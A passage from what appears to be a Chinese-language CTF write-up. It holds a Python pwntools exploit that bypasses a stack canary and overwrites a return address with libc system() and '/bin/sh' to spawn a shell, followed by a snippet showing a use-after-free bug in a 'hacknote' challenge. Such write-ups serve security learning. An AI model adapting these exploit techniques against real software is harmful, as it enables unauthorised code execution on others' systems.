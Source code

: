 ```python
print hex(base)
#gdb.attach(p,'')

size=24+7+4
p.sendlineafter("to sort",str(size))
sleep(0.1)
i=0;
while(1):
	p.sendlineafter("number : ","0")
	sleep(0.1)
	i+=1
	if i==24:
		break;
p.sendlineafter("number : ","+")
sleep(0.1)
libc=ELF("./libc_32.so.6")
libc.address=base
system=libc.symbols['system']
sh=libc.search("/bin/sh").next()
log.warning(hex(system))
log.warning(hex(sh))
payload=system
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(payload))
p.sendlineafter("number : ",str(sh))
p.sendlineafter("number : ",str(sh))

p.interactive()
```
* ps:玄学问题...我输入34个不成功...execve的环境变量可能有问题 输入35个最后一个用sh地址盖掉就成功了....


# hacknote
经典的uaf

## 漏洞点
```
if ( ptr[cmd] )
  {
    free(ptr[cmd]->Content);
    free(ptr[cmd]);
    puts("Success");
  }
```
free后并未置空


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert